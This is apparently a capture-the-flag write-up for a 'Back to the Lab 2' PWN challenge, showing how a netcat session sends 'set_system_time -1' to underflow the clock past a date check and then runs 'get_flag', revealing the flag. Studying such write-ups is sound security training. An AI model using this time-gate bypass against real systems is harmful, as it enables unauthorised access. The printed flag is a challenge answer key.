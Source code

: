 ## 4. Back to the Lab 2 PWN Challenge

> We installed this new HVAC system in the lab using NI instrumentation. Ooh, it's internet-connected. Can you get the flag off of it? It requires "company technician access" but we managed to convince the company to give us some old source code, maybe you can find a workaround?
> nc umbcsad.crabdance.com 8000
> back_to_the_lab_2.vi: https://drive.google.com/file/d/1Bu7xpMiGCEPONd7Hdl6BQL6JXqrFWE6i/view?usp=sharing
> Author: nb

### Process

Open the vi file in LabVIEW Community. It shows a few interesting things:

1. A TCP service accepting connections and then taking commands from the client.
2. A `get_flag` command which only be run by a privileged user -or- when the system date is after 2030 👀
3. A `set_system_time` command to set the system date.

Attempts to set the system time to large value gets blocked. Setting the system time to `-1` works, and results in an underflow which sets the date to 2040.

Now the `get_flag` command returns the flag.

```shell
ncat umbcsad.crabdance.com 8000
Welcome. Type ? for help.
DAWG> set_system_time -1
Done. New system time is: "01:28 AM Mon, Feb 06, 2040"
DAWG> get_flag
DawgCTF{t1m3_b3ck0n1ng_m3}
DAWG>
```